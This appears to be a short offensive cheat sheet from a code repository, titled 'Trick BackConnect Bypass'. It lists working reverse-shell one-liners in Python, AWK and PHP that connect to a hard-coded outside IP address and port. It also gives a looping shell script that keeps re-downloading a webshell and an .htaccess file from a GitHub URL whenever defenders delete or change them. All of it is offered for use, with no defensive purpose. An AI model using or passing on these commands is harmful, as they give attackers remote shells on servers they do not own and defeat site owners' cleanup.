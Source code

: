 # Trick BackConnect Bypass
## Python 
```
export RHOST="104.248.145.105";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
## AWK 
```
awk 'BEGIN {s = "/inet/tcp/0/104.248.145.105/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
## PHP EXEC & PHP SHELL EXEC
[EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);exec("sh <&3 >&3 2>&3");'
```
[SHELL_EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);shell_exec("sh <&3 >&3 2>&3");'
```

# Tips & Trick Bypass Webshell / Crack Other Things / Defender Stuff
### Anti Delete Command : 
```
while true; do echo $(TZ=Asia/Jakarta date) && if [ ! -f ac.php ]; then curl -o ac.php https://raw.githubusercontent.com/t101804/repshare/main/ac.php; fi && ! cmp --silent .htaccess /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a && curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess && echo $(TZ=Asia/Jakarta date) && sleep 2; done
```
#### Script
```
#!/bin/bash

while true; do 
    echo $(TZ=Asia/Jakarta date)
    if [ ! -f ac.php ]; then curl -o ac.php https://raw.githubusercontent.com/t101804/repshare/main/ac.php; fi
    ! cmp --silent .htaccess /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a && curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess
    echo $(TZ=Asia/Jakarta date)
    sleep 2
done
```


Credit by revshells.com and @CallMeRep
